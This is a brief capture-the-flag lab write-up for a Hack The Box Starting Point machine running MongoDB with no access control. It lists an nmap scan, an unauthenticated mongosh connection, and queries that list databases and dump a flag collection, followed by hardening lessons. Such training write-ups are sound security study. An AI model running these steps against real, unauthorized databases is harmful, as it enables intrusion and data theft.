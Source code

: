 ```yaml
---
title: "Lab: Mongod"
status: "Completed"
track: "HTB Starting Point"
date: "2025-09-01"
---
```


# Lab: Mongod

## Objective
MongoDB without access control (27017/tcp).

## Methodology
1. **Recon** — Identify service/entry point.
2. **Finding** — Confirm misconfiguration/vulnerability.
3. **Exploit** — Execute the minimal steps to gain access.
4. **Post** — Retrieve proof, note hardening steps.

## Key Commands
```bash
nmap -sV -p 27017 <host>
mongosh mongodb://<host>:27017
> show dbs
> use sensitive_information
> db.flag.find().pretty()
```

## Lessons Learned
- Disable/lock down default or legacy services.
- Restrict network exposure; prefer MFA and least privilege.
- Monitor and alert on anomalous access.